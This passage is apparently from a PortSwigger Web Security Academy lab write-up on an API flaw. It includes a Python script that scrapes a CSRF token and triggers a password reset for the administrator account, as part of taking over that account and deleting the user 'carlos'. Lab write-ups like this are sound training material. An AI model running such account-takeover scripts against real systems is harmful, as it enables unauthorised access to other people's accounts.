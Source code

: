 ![](../../.gitbook/assets/portswigger-api-writeup-image-20.png)

Using the above, I can reset the password, login, and delete `carlos`.

Now, I can script this entire process.

```python
import requests
import re
import sys
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a0800dc041ee07980a185950066002a'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/forgot-password', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
reset_csrf_token = match[1]

## Generate passwordResetToken
reset_data = {
	'csrf':reset_csrf_token,
	'username':'administrator'
}
r = s.post(url + '/forgot-password', proxies=proxies, verify=False, data=reset_data)
if '*****@normal-user.net' not in r.text:
	print('[-] error with generating code')
	exit()

print('[+] generated code')

```